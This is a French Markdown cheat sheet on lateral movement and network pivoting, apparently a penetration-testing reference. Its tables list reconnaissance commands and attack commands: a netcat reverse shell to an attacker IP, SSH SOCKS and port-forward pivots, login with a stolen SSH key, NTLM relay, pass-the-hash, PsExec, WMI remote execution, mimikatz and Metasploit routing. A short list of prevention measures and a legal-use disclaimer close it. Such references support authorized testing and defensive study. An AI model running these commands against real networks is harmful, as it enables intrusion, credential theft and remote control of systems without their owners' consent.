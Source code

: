 # lateral-movement.md

## cheat sheet - Mouvement latéral (Pivoting)

Ce document détaille les techniques de mouvement latéral dans un réseau, à des fins éducatives et légales uniquement.

---

## 1. Comprendre le mouvement latéral

Le mouvement latéral consiste à naviguer dans un réseau après une compromission initiale pour atteindre d’autres systèmes ou données sensibles.

| **Aspect**           | **Description**                                      |
|----------------------|-----------------------------------------------------|
| **Objectif**         | Accéder à des cibles critiques (ex. : DC, DB)       |
| **Prérequis**        | Accès initial à une machine compromise              |
| **Moyen**            | Exploitation de creds, services, ou réseau          |

---

## 2. Techniques de mouvement latéral (Linux)

### Reconnaissance
| **Commande**                 | **Description**                                      |
|------------------------------|-----------------------------------------------------|
| `ifconfig; ip a`             | Récupère les interfaces réseau                      |
| `arp -n`                     | Liste les hôtes dans le cache ARP                   |
| `netstat -tulnp`             | Identifie les ports/services actifs                 |
| `cat /etc/hosts`             | Liste les hôtes connus                              |
| `nmap -sn 192.168.1.0/24`    | Scan réseau pour hôtes actifs                       |

### Exploitation
| **Technique**                | **Exemple**                        | **Description**                     |
|------------------------------|------------------------------------|-------------------------------------|
| SSH pivoting                 | `ssh -D 9050 user@target`          | Crée un proxy SOCKS via SSH         |
| Pass-the-Key                 | `ssh user@target -i stolen_key`    | Utilise une clé SSH volée           |
| SMB relay                    | `impacket-ntlmrelayx -tf targets.txt` | Relaye NTLM vers une autre cible |
| Reverse shell                | `nc -e /bin/sh <attacker_ip> 4444` | Envoie un shell à l’attaquant      |
| Exploitation service         | `msf: exploit/ssh_login`           | Exploite un service vulnérable      |

---

## 3. Techniques de mouvement latéral (Windows)

### Reconnaissance
| **Commande**                 | **Description**                                      |
|------------------------------|-----------------------------------------------------|
| `ipconfig /all`              | Récupère les configs réseau                         |
| `arp -a`                     | Liste les hôtes dans le cache ARP                   |
| `net view`                   | Liste les machines du domaine                       |
| `netstat -ano`               | Identifie les ports/services actifs                 |
| `ping 192.168.1.1-254`       | Vérifie les hôtes actifs                            |

### Exploitation
| **Technique**                | **Exemple**                        | **Description**                     |
|------------------------------|------------------------------------|-------------------------------------|
| Pass-the-Hash                | `pth-winexe -U <hash> <target>`    | Utilise un hash NTLM                |
| PSExec                       | `psexec.py domain/user@<target>`   | Exécute une commande via SMB        |
| WMI                          | `wmic /node:<target> process call create "cmd"` | Lance une commande à distance |
| RDP                          | `xfreerdp /u:user /p:pass /v:<target>` | Connexion RDP avec creds         |
| Token stealing               | `mimikatz: sekurlsa::pth`          | Utilise un jeton pour accès         |

---

## 4. Pivoting réseau

| **Technique**                | **Exemple**                        | **Description**                     |
|------------------------------|------------------------------------|-------------------------------------|
| SOCKS Proxy                  | `ssh -D 9050 user@<pivot>`         | Tunnel via proxy SOCKS              |
| Port Forwarding              | `ssh -L 445:<target>:445 <pivot>`  | Redirige un port local              |
| Reverse Port Forwarding      | `ssh -R 4444:<attacker>:4444 <pivot>` | Redirige un port distant         |
| Meterpreter pivot            | `msf: route add <subnet>`          | Ajoute une route dans Metasploit    |
| Proxychains                  | `proxychains nmap <target>`        | Utilise un proxy pour scan          |

---

## 5. Préventions

| **Moyen**                    | **Explication**                                      |
|------------------------------|-----------------------------------------------------|
| Segmentation réseau          | Limiter les connexions entre machines               |
| Désactiver services inutiles | Réduire les points d’entrée (ex. : SMB, RDP)        |
| Authentification forte       | MFA pour bloquer le vol de creds                    |
| Surveiller le trafic         | Détecter les scans ou connexions suspectes          |
| Restreindre creds            | Ne pas réutiliser les mots de passe                 |
| Désactiver LLMNR/NBNS        | Prévenir les relais NTLM                            |
| Pare-feu strict              | Bloquer les ports non nécessaires                   |
| Journalisation               | Tracer les connexions et commandes                  |
| Mettre à jour systèmes       | Corriger les failles exploitables                   |
| Sensibilisation              | Former les utilisateurs aux risques                 |

---

## 6. Précautions

- **Usage légal** : Tests uniquement sur réseaux autorisés.
- **Outils** : Metasploit, Impacket, Proxychains, Nmap pour automatisation.
- **Isolation** : Tester dans un lab sécurisé.
  
